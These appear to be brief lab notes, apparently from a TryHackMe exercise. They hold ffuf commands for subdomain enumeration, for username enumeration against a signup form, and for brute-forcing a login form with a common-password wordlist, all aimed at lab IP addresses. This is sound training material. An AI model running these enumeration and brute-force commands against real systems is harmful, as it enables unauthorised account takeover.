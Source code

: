 ffuf \-w /usr/share/wordlists/seclists/Discovery/DNS/namelist\.txt \-H "Host: FUZZ\.acmeitsupport\.thm" \-u [http://10.10.133.186](#http://10.10.133.186)
\-fs 2395
**
username enumeration**
ffuf \-w /usr/share/wordlists/seclists/Usernames/Names/names\.txt \-X POST \-d "username=FUZZ\&email=x\&password=x\&cpassword=x" \-H "Content\-Type: application/x\-www\-form\-urlencoded" \-u [http://10.10.77.47/customers/signup](#http://10.10.77.47/customers/signup)
\-mr "username already exists"

**password bruteforce
**ffuf \-w users\.txt:W1,/usr/share/wordlists/seclists/Passwords/Common\-Credentials/10\-million\-password\-list\-top\-100\.txt:W2 \-X POST \-d "username=W1\&password=W2" \-H "Content\-Type: application/x\-www\-form\-urlencoded" \-u [http://10.10.77.47/customers/login](#http://10.10.77.47/customers/login)
\-fc 200

